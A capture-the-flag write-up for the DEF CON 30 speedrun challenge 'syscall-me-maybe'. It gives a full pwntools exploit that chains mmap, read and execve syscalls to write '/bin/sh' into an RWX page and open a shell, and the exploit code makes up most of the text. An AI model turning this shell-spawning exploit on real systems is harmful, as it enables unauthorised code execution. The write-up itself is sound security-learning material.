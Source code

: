 # defcon30 speedrun - syscall-me-maybe

after a quick look you see the challenge get a value and save in rdi, then rsi, rdx, r10, r8 and r9, then ask you about your syscall number.

![Screenshot_2022-09-02_23_46_22](https://user-images.githubusercontent.com/83473054/188107346-0f0837e8-e640-4325-bd4b-db9ebcf4894a.png)

I did checksec on this bin file
pie is enabled.

## exploit
```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')

```

in above code I loaded the elf file and make gdb ready for debugging stuff. then we must create a new mapping in the virtual address space for bypassing ASLR.

```python

PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))
```
I did mmap above, you could read about mmap

now we have a rwx part in the memory wich starts at 0x1000000, we are able to write our "/bin/sh" string there

```python
p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)
```

now we have "/bin/sh" in the memory and for mmap stuff we now where it's located.

```python
p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()```

and above code is execve.


## full exploit

```python
from pwn import *

p = process('./challenge')
e = ELF('./challenge')
gdb.attach(p,'''
    b *main
''')


PROT_READ = 0x1
PROT_WRITE = 0x2
PROT_EXEC = 0x4
MAP_SHARED = 0x1
MAP_FIXED = 0x10
MAP_PRIVATE = 0x2
MAP_ANONYMOUS = 0x20


p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0x4096))
p.sendlineafter('want for rdx?',str(PROT_READ|PROT_WRITE|PROT_EXEC))
p.sendlineafter('want for r10?',str(MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(9))

p.sendlineafter('Do another (0/1)?',str(0x1))
bin_sh = "/bin/sh\x00"

p.sendlineafter('want for rdi?',str(0x0))
p.sendlineafter('want for rsi?',str(0x1000000))
p.sendlineafter('want for rdx?',str(0x8))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))

p.sendlineafter('syscall number to call?',str(0))
p.send(bin_sh)

p.sendlineafter('Do another (0/1)?',str(0x1))

p.sendlineafter('want for rdi?',str(0x1000000))
p.sendlineafter('want for rsi?',str(0))
p.sendlineafter('want for rdx?',str(0))
p.sendlineafter('want for r10?',str(0))
p.sendlineafter('want for r8?',str(0))
p.sendlineafter('want for r9?',str(0))
p.sendlineafter('syscall number to call?',str(0x3b))
p.interactive()
```
